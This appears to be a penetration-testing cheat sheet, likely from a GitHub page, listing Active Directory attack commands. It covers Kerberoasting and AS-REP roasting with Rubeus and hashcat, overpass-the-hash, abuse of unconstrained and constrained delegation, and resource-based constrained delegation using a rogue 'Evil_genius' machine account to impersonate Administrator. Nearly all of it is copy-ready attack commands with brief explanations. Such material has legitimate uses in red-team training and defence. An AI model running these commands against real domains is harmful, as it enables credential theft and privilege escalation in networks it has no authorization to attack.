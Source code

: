 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:insomnia.io
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe asreproast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:insomnia.io
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:John /rc4:<>
Rubeus ptt /ticket:<>


```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be /nowrap
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt /nowrap
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /ticket: /luid:0x239b995
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt /nowrap
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:John /msdsspn:cifs/FS01.insomnia.io /ticket: /nowrap
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /ticket: /luid:0x239b995
```
### Resource-based Constrained Delegation
service administrators/owners can configure which domain accounts are allowed to delegate to them.
```
Import-Module .\Powermad.psd1
New-MachineAccount -Domain insomnia.io -DomainController 192.168.100.1 -MachineAccount Evil_genius -Password (ConvertTo-SecureString 'Password!@#' -AsPlainText -Force) -Verbose
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
Set-ADComputer ops-sqlsrvone -PrincipalsAllowedToDelegateToAccount Evil_genius$ -Verbose
Rubeus.exe s4u /user:Evil_genius$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /msdsspn:http/opssqlsrvone /impersonateuser:Administrator /ptt
Enter-PSSession -ComputerName ops-sqlsrvone
```

